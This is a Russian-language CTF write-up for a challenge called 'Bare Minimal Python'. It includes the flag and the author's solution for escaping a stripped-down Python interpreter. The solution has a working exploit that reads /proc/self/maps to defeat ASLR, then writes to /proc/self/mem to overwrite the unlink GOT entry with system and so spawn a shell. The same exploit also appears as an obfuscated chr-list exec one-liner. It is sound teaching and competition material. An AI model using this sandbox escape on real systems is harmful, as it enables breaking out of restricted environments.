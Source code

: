 # Название: Bare Minimal Python
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
### Флаг: **CTF{PyTh0N_1s_s0_1nt3r3st1ng}**
### Описание
САМЫЙ ПЕРЕДОВОЙ ПИТОН ИНТЕРПРЕТАТОР! САМАЯ БЫСТРАЯ СКОРОСТЬ ВЫПОЛНЕНИЯ! САМАЯ НАДЁЖНАЯ ЗАЩИТА (а вот тут следовало бы выяснить поподробнее)
#### Примечание 1: Для получения флага вам нужно запустить бинарник `/give_me_flag`. Реверсить и всячески исследовать его не надо, это простая "читалка" единственного файла с флагом, на котором стоит SUID бит.
#### Примечание 2: В Dockerfile зафиксирована версия базового образа через хеш sha256 (`ubuntu@sha256:...`). Это гарантирует возможность получить такую же среду, как на нашем сервере.
#### Примечание 3: xinetd - служебный файл, необходимый для развертывания на сервере. В нём нет уязвимостей.

### Решение
Был изменён файл posixmodule.c, а также удалены все модули, кроме encodings, т.к. без него Python запускаться отказался.  
Также "заблокированы" (не вносятся в итоговую сборку, т.к. не присутствуют в файле `posix_methods`) все функции из модуля `os`, кроме:
```c
// I EVEN DISABLED THOSE SHADY METHODS
// ONLY BARE MINIMUM REMAINS
static PyMethodDef posix_methods[] = {

    OS_LISTDIR_METHODDEF
    OS_STAT_METHODDEF
    OS_FSPATH_METHODDEF
    OS_MKDIR_METHODDEF
    OS_OPEN_METHODDEF
    OS_CLOSE_METHODDEF
    OS_REPLACE_METHODDEF
    OS_SCANDIR_METHODDEF
    OS_UNLINK_METHODDEF
    OS_RMDIR_METHODDEF
    OS_LSTAT_METHODDEF
    OS_GETCWD_METHODDEF
    {NULL,              NULL}            /* Sentinel */
};
```
Также по всем методам, позволяющим запускать процессы, расставлены return-ы в самом начале с комментариями вида "так просто не получится" (но это не играет никакого значения, т.к. данные методы запустить не удастся из-за отсутствия в итоговой сборке).
```
static PyObject *
os_execve_impl(PyObject *module, path_t *path, PyObject *argv, PyObject *env)
/*[clinic end generated code: output=ff9fa8e4da8bde58 input=626804fa092606d9]*/
{
    return 0xCAFE; // no way bro
```
Негусто, но можно переписать GOT таблицу, тем самым подменив функцию из libc на нужную (python будет "думать", что вызывается напр. ф-ция unlink, а по факту вызовется system)
```python
m=open('/proc/self/maps','r') # to bypass ASLR
map=m.read().splitlines(keepends=False)
m.close()
for st in map:
    if '/usr/lib/x86_64-linux-gnu/libc.so.6' in st: # first libc str
        RES = st
        break

BASE_LIBC = int(RES.split('-')[0], 16) # libc base
ADDR_SYSTEM = 0x7ff997dedd60 - 0x7ff997d9d000 + BASE_LIBC

BASE_GOT = int(map[0].split('-')[0], 16) # SYSTEM LIBC
ADDR_GOT = 0x5578ea82ca50 - 0x5578ea397000 + BASE_GOT

print('got(unlink):', hex(ADDR_GOT), 'system:', hex(ADDR_SYSTEM))

import os
f = open('/proc/self/mem','wb')
f.seek(ADDR_GOT) # seek to chdir
f.write((ADDR_SYSTEM).to_bytes(8,'little')) # mock unlink with system libc func
f.close()
os.unlink("/bin/sh") # fake unlink (now points to system)
```


Однострочник для избежания проблем со вставкой табуляции:
```
exec(''.join([chr(q) for q in [109,61,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,97,112,115,39,44,39,114,39,41,32,35,32,116,111,32,98,121,112,97,115,115,32,65,83,76,82,10,109,97,112,61,109,46,114,101,97,100,40,41,46,115,112,108,105,116,108,105,110,101,115,40,107,101,101,112,101,110,100,115,61,70,97,108,115,101,41,10,109,46,99,108,111,115,101,40,41,10,102,111,114,32,115,116,32,105,110,32,109,97,112,58,10,32,32,32,32,105,102,32,39,47,117,115,114,47,108,105,98,47,120,56,54,95,54,52,45,108,105,110,117,120,45,103,110,117,47,108,105,98,99,46,115,111,46,54,39,32,105,110,32,115,116,58,32,35,32,102,105,114,115,116,32,108,105,98,99,32,115,116,114,10,32,32,32,32,32,32,32,32,82,69,83,32,61,32,115,116,10,32,32,32,32,32,32,32,32,98,114,101,97,107,10,10,66,65,83,69,95,76,73,66,67,32,61,32,105,110,116,40,82,69,83,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,108,105,98,99,32,98,97,115,101,10,65,68,68,82,95,83,89,83,84,69,77,32,61,32,48,120,55,102,102,57,57,55,100,101,100,100,54,48,32,45,32,48,120,55,102,102,57,57,55,100,57,100,48,48,48,32,43,32,66,65,83,69,95,76,73,66,67,10,10,66,65,83,69,95,71,79,84,32,61,32,105,110,116,40,109,97,112,91,48,93,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,83,89,83,84,69,77,32,76,73,66,67,10,65,68,68,82,95,71,79,84,32,61,32,48,120,53,53,55,56,101,97,56,50,99,97,53,48,32,45,32,48,120,53,53,55,56,101,97,51,57,55,48,48,48,32,43,32,66,65,83,69,95,71,79,84,10,10,112,114,105,110,116,40,39,103,111,116,40,117,110,108,105,110,107,41,58,39,44,32,104,101,120,40,65,68,68,82,95,71,79,84,41,44,32,39,115,121,115,116,101,109,58,39,44,32,104,101,120,40,65,68,68,82,95,83,89,83,84,69,77,41,41,10,10,105,109,112,111,114,116,32,111,115,10,102,32,61,32,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,101,109,39,44,39,119,98,39,41,10,102,46,115,101,101,107,40,65,68,68,82,95,71,79,84,41,32,35,32,115,101,101,107,32,116,111,32,99,104,100,105,114,10,102,46,119,114,105,116,101,40,40,65,68,68,82,95,83,89,83,84,69,77,41,46,116,111,95,98,121,116,101,115,40,56,44,39,108,105,116,116,108,101,39,41,41,32,35,32,109,111,99,107,32,117,110,108,105,110,107,32,119,105,116,104,32,115,121,115,116,101,109,32,108,105,98,99,32,102,117,110,99,10,102,46,99,108,111,115,101,40,41,10,111,115,46,117,110,108,105,110,107,40,34,47,98,105,110,47,115,104,34,41,32,35,32,102,97,107,101,32,117,110,108,105,110,107,32,40,110,111,119,32,112,111,105,110,116,115,32,116,111,32,115,121,115,116,101,109,41]]))
```
